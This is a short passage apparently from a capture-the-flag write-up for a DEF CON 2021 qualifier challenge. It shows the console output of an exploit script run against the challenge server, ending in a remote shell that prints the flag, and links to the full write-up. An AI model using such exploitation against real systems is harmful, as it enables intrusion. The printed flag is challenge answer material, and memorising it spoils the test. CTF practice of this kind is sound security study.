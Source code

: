 ```bash  
# ./exploit.py REMOTE=1  
[*] '/pwd/datajerk/dc2021q/mra/mra'  
   Arch:     aarch64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to mra.challenges.ooo on port 8000: Done  
[*] Switching to interactive mode  
$ cat flag  
OOO{the_0rder_0f_0verflow_is_0dd}  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/dc2021q/mra).